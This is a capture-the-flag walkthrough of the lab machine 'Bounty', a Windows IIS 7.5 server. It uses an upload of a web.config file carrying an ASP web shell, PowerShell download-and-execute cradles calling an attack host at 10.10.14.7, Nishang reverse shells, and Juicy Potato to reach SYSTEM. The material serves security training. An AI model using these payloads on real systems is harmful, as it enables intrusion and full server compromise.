





# Bounty Writeup w/o Metasploit



## Reconnaissance <a id="991f"></a>

Run the [nmapAutomato](https://github.com/rkhal101/nmapAutomator)r script to enumerate open ports and services running on those ports.

```text
./nmapAutomator.sh 10.10.10.93 All
```

* **All**: Runs all the scans consecutively.

We get back the following result.

```text
Running all scans on 10.10.10.93Host is likely running Windows---------------------Starting Nmap Quick Scan---------------------Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-18 22:07 EST
Nmap scan report for 10.10.10.93
Host is up (0.10s latency).
Not shown: 999 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
80/tcp open  httpNmap done: 1 IP address (1 host up) scanned in 8.65 seconds---------------------Starting Nmap Basic Scan---------------------Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-18 22:07 EST
Nmap scan report for 10.10.10.93
Host is up (0.041s latency).PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windowsService detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.24 seconds----------------------Starting Nmap UDP Scan----------------------Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-18 22:07 EST
Nmap scan report for 10.10.10.93
Host is up.
All 1000 scanned ports on 10.10.10.93 are open|filteredNmap done: 1 IP address (1 host up) scanned in 201.65 seconds---------------------Starting Nmap Full Scan----------------------
                                                                                                                                                                               
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-18 22:11 EST
Initiating Parallel DNS resolution of 1 host. at 22:11
Completed Parallel DNS resolution of 1 host. at 22:11, 0.02s elapsed
Initiating SYN Stealth Scan at 22:11
Scanning 10.10.10.93 [65535 ports]
....
Nmap scan report for 10.10.10.93
Host is up (0.040s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE
80/tcp open  httpRead data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 359.73 seconds
           Raw packets sent: 131172 (5.772MB) | Rcvd: 98 (4.312KB)No new ports---------------------Starting Nmap Vulns Scan---------------------
                                                                                                                                                                               
Running CVE scan on basic ports
                                                                                                                                                                               
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-18 22:17 EST
Nmap scan report for 10.10.10.93
Host is up (0.047s latency).PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windowsService detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.88 secondsRunning Vuln scan on basic ports
                                                                                                                                                                               
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-18 22:17 EST
Nmap scan report for 10.10.10.93
Host is up (0.039s latency).PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: Microsoft-IIS/7.5
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windowsService detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 289.06 seconds---------------------Recon Recommendations----------------------Web Servers Recon:
                                                                                                                                                                               
gobuster dir -w /usr/share/wordlists/dirb/common.txt -l -t 30 -e -k -x .html,.asp,.php -u http://10.10.10.93:80 -o recon/gobuster_10.10.10.93_80.txt
nikto -host 10.10.10.93:80 | tee recon/nikto_10.10.10.93_80.txtWhich commands would you like to run?                                                                                                                                          
All (Default), gobuster, nikto, Skip <!>Running Default in (1) s:---------------------Running Recon Commands----------------------Starting gobuster scan
                                                                                                                                                                               
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.93:80
[+] Threads:        30
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Show length:    true
[+] Extensions:     html,asp,php
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2020/02/18 22:22:44 Starting gobuster
===============================================================
http://10.10.10.93:80/aspnet_client (Status: 301) [Size: 159]
http://10.10.10.93:80/uploadedfiles (Status: 301) [Size: 159]
===============================================================
2020/02/18 22:23:43 Finished
===============================================================Finished gobuster scan
                                                                                                                                                                               
=========================
                                                                                                                                                                               
Starting nikto scan
                                                                                                                                                                               
- Nikto v2.1.6
--------------------------------------------------------------------
+ Target IP:          10.10.10.93
+ Target Hostname:    10.10.10.93
+ Target Port:        80
+ Start Time:         2020-02-18 22:23:45 (GMT-5)
--------------------------------------------------------------------
+ Server: Microsoft-IIS/7.5
+ Retrieved x-powered-by header: ASP.NET
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-aspnet-version header: 2.0.50727
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST 
+ Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST 
+ 7864 requests: 1 error(s) and 7 item(s) reported on remote host
+ End Time:           2020-02-18 22:32:51 (GMT-5) (546 seconds)
--------------------------------------------------------------------
+ 1 host(s) testedFinished nikto scan
                                                                                                                                                                               
=========================
                                                                                                                                                                                                                                                                                                                                                          
                                                                                                                                                                               
---------------------Finished all Nmap scans---------------------Completed in 25 minute(s) and 16 second(s)
```

We have one port open.

* **Port 80:** running Microsoft IIS httpd 7.5

Before we move on to enumeration, let’s make some mental notes about the scan results.

* The only port that is open is port 80 so this will definitely be our point of entry. The port is running an outdated version of Microsoft IIS. The scans didn’t report much information except for two directories _aspnet\_client_ and _uploadedfiles_ that are available on the web server.

## Enumeration <a id="d636"></a>

Visit the web application in the browser.



View the page source to see if it leaks any sensitive information.



There doesn’t seem to be anything useful. The gobuster scan reported two directories _aspnet\_client_ and uploadedfiles. They both give us a 403 error.


Since this is the only port open, there has to be something on this web server that gives us initial access. Let’s run another gobuster scan with a larger wordlist.

```text
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -l -t 30 -e -k -u http://10.10.10.93:80 -o 10.10.10.93/recon/gobuster-medium_10.10.10.93_80.txt
```

* **dir:** directory mode
* **-w:** wordlist
* **-l:** include the length of the body in the output
* **-t:** thread count
* **-e:** expanded mode, print full urls
* **-k:** skip ssl certificate verification
* **-u:** url
* **-o:** output file location

We don’t get any extra results. Let’s try adding file extensions. Since this is a Microsoft IIS server, we’ll add ASP and ASPX files.

```text
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -l -t 30 -e -k -x .asp,.aspx,.txt -u http://10.10.10.93:80 -o 10.10.10.93/recon/gobuster-medium-ext_10.10.10.93_80.txt
```

* **-x:** file extensions to search for

We get back the following result.

```text
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.93:80
[+] Threads:        30
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Show length:    true
[+] Extensions:     asp,aspx,txt
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2020/02/18 23:38:48 Starting gobuster
===============================================================
http://10.10.10.93:80/transfer.aspx (Status: 200) [Size: 941]
```

Visit the _transfer.aspx_ page.


It’s a file upload functionality. Let’s first try and upload a PNG file.


We get a “_file uploaded successfully_” message. We can view the image in the _uploadedfiles_ directory that our original gobuster scan found.



This is good news! If we somehow can figure out a way to upload a file that contains ASPX code on the web server, we can execute the code by calling the file from the _uploadedfiles_ directory.

I tested the _ASP_ and _ASPX_ extensions but they both give me an “_invalid file_” error.


It does however accept the _.config_ extension, so we can upload a _web.config_ file. This is a configuration file that is used to manage various settings of the web server. We shouldn’t be able to upload/replace this file in the first place, but to make matters even worse, if you google “_web.config bypass upload restrictions_”, you’ll find this [link](https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/), explaining how you could get remote code execution by simply adding _ASPX_ code in the _web.config_ file.

Let’s test it out. Copy the code from [this link](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/) and save it in the _web.config_ file. The code contains _ASPX_ code that adds the integers 1 and 2 and outputs it on the screen. If we see the value 3 on the screen, we’ll know that we can run _ASPX_ code using the _web.config_ file.

Upload the file and view it.


Perfect! Now we’re pretty confident that we can get remote code execution through this upload functionality.

## Initial Foothold <a id="56d6"></a>

Remove the ASPX code from the file and replace it with the following simple web shell.

```text
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

The above code executes the _whoami_ command and outputs it on the screen. Upload the _web.config_ file and view it.


We definitely have code execution! Download the [Nishang](https://github.com/samratashok/nishang) repository and copy the _Invoke-PowerShellTcp.ps1_ script into your current directory.

```text
cp ../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell.ps1
```

Add the following line to the end of the script with the attack machine configuration settings.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 1234
```

When called, this sends a reverse shell back to our attack machine on port 1234.

Setup a listener to receive the reverse shell.

```text
nc -nlvp 1234
```

Next, change the _web.config_ file to download the PowerShell script and execute it.

```text
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.7:5555/shell.ps1')")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

Start up a python server in the directory that the shell script resides in.

```text
python -m SimpleHTTPServer 5555
```

Upload the _web.config_ file and view it.


We get a shell! Let’s try to grab the _user.txt_ flag.

```text
PS C:\windows\system32\inetsrv> cd c:\Users\merlin\Desktop
PS C:\Users\merlin\Desktop> dir
PS C:\Users\merlin\Desktop>
```

The _Desktop_ directory seems to be empty. Let’s use the _attrib_ command to see if the file is hidden.


The file is there, it’s just hidden. View the _user.txt_ flag.


## Privilege Escalation <a id="8ece"></a>

Run the _systeminfo_ command.

```text
PS C:\Users\merlin\Desktop> systeminfoHost Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3606965-84760
Original Install Date:     5/30/2018, 12:22:24 AM
System Boot Time:          2/19/2020, 5:04:41 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,577 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,586 MB
Virtual Memory: In Use:    509 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.93
```

It’s running Microsoft Server 2008 R2 and does not have any hot fixes installed, so it’s likely vulnerable to a bunch of kernel exploits. However, before we go down this route, let’s first check the system privileges that are enabled for this user.


_SetImpersonatePrivilege_ is enabled so we’re very likely to get SYSTEM using [Juicy Potato](https://github.com/ohpe/juicy-potato). Users running the SQL server service or the IIS service usually have these privileges enabled by design. This privilege is designed to allow a service to impersonate other users on the system. Juicy Potato exploits the way Microsoft handles tokens in order to escalate local privileges to SYSTEM.

Let’s test it out. Grab the Juicy Potato executable from [here](https://github.com/ohpe/juicy-potato/releases) and transfer it to the target machine using the following command.

```text
(new-object net.webclient).downloadfile('http://10.10.14.7:5555/JuicyPotato.exe', 'C:\Users\merlin\Desktop\jp.exe')
```

Run the executable file to view the arguments it takes.



It requires 3 mandatory arguments.

* **-t:** Create process call. For this option we’ll use \* to test both options.
* **-p:** The program to run. We’ll need to create a file that sends a reverse shell back to our attack machine.
* **-l:** COM server listen port. This can be anything. We’ll use 4444.

First copy the _Invoke-PowerShellTcp.ps1_ script once again into your current directory.

```text
cp ../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell-2.ps1
```

Add the following line to the end of the script with the attack configuration settings.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 6666
```

When called, this sends a reverse shell back to our attack machine on port 6666.

Next, create a _shell.bat_ file that downloads the above _shell-2.ps1_ PowerShell script and runs it.

```text
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.7:5555/shell-2.ps1')
```

Then download the _shell.bat_ file on the target machine.

```text
(new-object net.webclient).downloadfile('http://10.10.14.7:5555/shell.bat', 'C:\Users\merlin\Desktop\shell.bat')
```

Setup a listener on the attack machine to receive the reverse shell.

```text
nc -nlvp 6666
```

Then run the Juicy Potato executable. This should attempt to get a token that impersonates SYSTEM and then run our _shell.bat_ file with elevated privileges.

```text
PS C:\Users\merlin\Desktop> ./jp.exe -t * -p shell.bat -l 4444Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4444
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM[+] CreateProcessWithTokenW OK
```

We get a shell back with SYSTEM privileges!

```text
root@kali:~/Desktop/tools/potatos# nc -nlvp 6666
listening on [any] 6666 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.93] 49175
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.PS C:\Windows\system32>whoami
nt authority\system
```

Grab the _root.txt_ flag.


## Lessons Learned <a id="23a3"></a>

To gain an initial foothold on the box we exploited one vulnerability.

1. Insufficient input validation. The upload functionality of the website had insufficient validation on the type of files that can be uploaded. Therefore, we were able to upload a web.config file that contained ASPX code to gain an initial foothold on the system. Proper input validation checks should be put in place on all user input.

To escalate privileges we didn’t necessarily exploit a vulnerability but an intended design of how Microsoft handles tokens. So there’s really not much to do there but put extra protections in place for these sensitive accounts. That’s not to say that this box was not vulnerable to a bunch of kernel exploits. We saw that it is a Windows 2008 OS that has no patches installed. So if we didn’t escalate privileges using Juicy Potato, we could have easily done so using the many kernel exploits that this box is vulnerable to.

